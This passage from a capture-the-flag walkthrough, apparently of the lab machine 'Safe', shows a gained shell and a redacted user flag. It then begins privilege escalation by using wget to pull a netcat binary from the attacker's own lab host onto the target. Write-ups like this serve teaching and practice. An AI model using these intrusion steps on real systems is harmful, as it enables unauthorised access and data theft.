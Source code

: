 
We get an interactive shell:

![1337-shell](/assets/img/safe/safe-interactive-1337.png)


and the user flag:
```
$ cat /home/user/user.txt
7axxxxxxxxxxxxxxxxxxxxxxxxxxx90
```



<hr width="250" size="6">


<h3>Privilege Escalation</h3>


The contents of `/home/user` are interesting.


![homeuser](/assets/img/safe/safe-user-dir.png)


I want to get these files back to Kali to play with, but the current shell is rubbish, and I cant get a better one with python.

I create a working directory
```
mkdir /var/tmp/boo
```

from there I use wget to put `nc` on the target....its hosted on kali by a simple python webserver.
```
wget http://10.10.14.24/nc
```
